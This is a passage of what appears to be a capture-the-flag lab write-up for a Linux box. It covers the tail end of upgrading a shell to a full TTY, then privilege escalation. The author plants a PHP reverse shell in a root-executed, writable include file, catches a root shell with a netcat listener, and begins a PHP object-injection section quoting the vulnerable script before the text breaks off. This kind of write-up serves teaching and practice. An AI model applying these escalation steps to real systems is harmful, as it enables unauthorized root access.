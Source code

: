 Then Ctr+Z

    root@kali:~# stty raw -echo

Then write fg

and u wont see it. Just press two enter and u will get back to ur shell with full TTY , TAB auto complication and u can Ctr+C out of hanged commands.

# Privilege Escalation

I will show two ways to get root on that box.

## Writable PHP file

Running pspy on the box showed that root runs a PHP script.

    2020/01/03 19:23:01 CMD: UID=0    PID=5730   | /usr/bin/php /var/lib/playbuff/buff.php

Looking at the script i found that

    include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");

That's the file I found earlier. That file we have all permissions on we can write PHP code in it and it will get executed by root. So, I will put PHP reverse Shell into it.

And after some time i got root shell.

    root@kali:# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.145.
    Ncat: Connection from 10.10.10.145:37258.
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat root.txt
    7dfc49...

## PHP Object Injection

I'm not gonna explain PHP object Injection Here because it had been explained in a lot of articles out there one of them is [This](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/) Which I used to understand and exploit it

The vulnerability is still in buff.php. Read comments in codes for some explanation about the attack.

    <?php                                                                                                                                                     
    include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php"); # This is the Include I exploited in the first method.                                                                                  
    class playBuff                                                                                                                                            
    {              
            public $logFile="/var/log/playbuff/logs.txt"; # Path to file
            public $logData="Updated"; # Data to be written into file

